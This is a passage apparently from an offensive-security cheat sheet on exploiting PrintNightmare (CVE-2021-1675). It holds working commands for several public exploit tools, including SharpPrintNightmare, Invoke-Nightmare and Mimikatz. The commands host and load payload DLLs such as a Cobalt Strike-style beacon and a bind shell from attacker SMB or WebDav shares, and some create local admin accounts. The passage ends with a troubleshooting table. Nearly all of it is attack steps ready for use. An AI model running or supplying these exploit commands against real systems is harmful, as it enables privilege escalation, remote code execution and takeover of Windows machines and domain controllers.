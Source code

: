 ```ps1
SharpWebServer.exe port=8888 dir=c:\users\public verbose=true
```
When using WebDav instead of SMB, you must add `@[PORT]` to the hostname in the URI, e.g.: `\\172.16.1.5@8888\Downloads\beacon.dll`
WebDav client **must** be activated on exploited target. By default it is not activated on Windows workstations (you have to `net start webclient`) and it's not installed on servers. Here is how to detect activated webdav:
```ps1
cme smb -u user -p password -d domain.local -M webdav [TARGET]
```

**Trigger the exploit**: 

* [SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)
  ```powershell
  # require a modified Impacket: https://github.com/cube0x0/impacket
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
  python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
  ## LPE
  SharpPrintNightmare.exe C:\addCube.dll
  ## RCE using existing context
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
  ## RCE using runas /netonly
  SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
  ```
* [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)
  ```powershell
  ## LPE only (PS1 + DLL)
  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
  Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
  Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
  ```
* [Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)
  ```powershell
  ## LPE
  misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
  ## RCE
  misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
  ```
* [PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)
  ```powershell
  PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
  ```

**Debug informations**

| Error  | Message             | Debug                                    |
|--------|---------------------|------------------------------------------|
| 0x5    | `rpc_s_access_denied` | Permissions on the file in the SMB share |
| 0x525  | `ERROR_NO_SUCH_USER`  | The specified account does not exist.    |
| 0x180  | unknown error code  | Share is not SMB2                        |
